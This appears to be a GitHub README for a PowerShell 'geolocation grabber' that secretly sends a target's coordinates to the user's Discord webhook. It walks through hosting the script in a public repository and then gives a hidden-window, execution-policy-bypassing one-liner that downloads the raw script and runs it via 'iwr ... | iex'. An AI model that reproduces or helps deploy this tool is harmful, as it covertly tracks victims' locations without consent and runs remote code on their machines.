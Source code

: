 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image1?raw=true" width="350" title="hover text"> <p/>
<p>put geolocationgraber.ps1.txt in and commit changes <p/>
<p>click geolocationgraber.ps1.txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image2" width="350" title="hover text"> <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image3" width="350" title="hover text"> <p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image4" width="350" title="hover text"> <p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
<p><p/>
<p>  ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  <p/>
<p><p/>
